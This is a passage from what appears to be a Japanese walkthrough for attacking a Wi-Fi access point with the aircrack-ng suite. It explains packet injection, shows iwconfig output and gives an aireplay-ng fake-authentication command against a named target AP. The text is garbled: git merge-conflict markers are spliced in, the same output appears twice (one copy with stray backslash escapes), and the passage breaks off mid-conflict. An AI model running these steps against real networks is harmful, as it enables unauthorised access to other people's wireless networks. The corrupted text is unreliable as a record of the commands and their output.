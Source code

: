 　さて、いつまでたっても増えない\#Dataを見ていたってしょうがないので、さっ
そくパケットインジェクションを実行していきましょう。
　airodump\-ngを動かしつつ、新しいターミナルを開いて「aireplay\-ng \-1 <何秒
ごとに実行するか> \-a <ターゲットAPのBSSID> \-h <使用するNICのMACアドレス> 
\-e <ターゲットAPのESSID> <使用するNIC>」と入力し、ターゲットAPにfakeauth
（ターゲットAPとNICの関連付け）をします。使用するNICのMACアドレスはiwcof
igコマンドで確認しておいてください。

\-\-\-\-\-
\# iwconfig
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
lo        no wireless extensions.

eth0      no wireless extensions.

wifi0     no wireless extensions.

ath0      IEEE 802.11g  ESSID:""  Nickname:""
<<<<<<< HEAD
          Mode:Managed  Frequency:2.457 GHz  Access Point: Not-Associated
          Bit Rate:0 kb/s   Tx-Power:17 dBm   Sensitivity=1/1
          Retry:off   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:off
          Link Quality=0/70  Signal level=-98 dBm  Noise level=-98 dBm
=======
          Mode:Managed  Frequency:2.457 GHz  Access Point: Not\-Associated
          Bit Rate:0 kb/s   Tx\-Power:17 dBm   Sensitivity\=1/1
          Retry:off   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:off
          Link Quality\=0/70  Signal level\=\-98 dBm  Noise level\=\-98 dBm
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
          Rx invalid nwid:2278  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:0   Missed beacon:0

ath1      IEEE 802.11g  ESSID:""  Nickname:""
          Mode:Monitor  Frequency:2.457 GHz  Access Point: ZZ:ZZ:ZZ:ZZ:ZZ:ZZ
<<<<<<< HEAD
          Bit Rate:0 kb/s   Tx-Power:17 dBm   Sensitivity=1/1
          Retry:off   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:off
          Link Quality=0/70  Signal level=-98 dBm  Noise level=-98 dBm
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:0   Missed beacon:0

# aireplay-ng -1 0 -a 00:11:22:33:44:55 -h ZZ:ZZ:ZZ:ZZ:ZZ:ZZ -e niceboat ath1
=======
          Bit Rate:0 kb/s   Tx\-Power:17 dBm   Sensitivity\=1/1
          Retry:off   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:off
          Link Quality\=0/70  Signal level\=\-98 dBm  Noise level\=\-98 dBm
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:0   Missed beacon:0
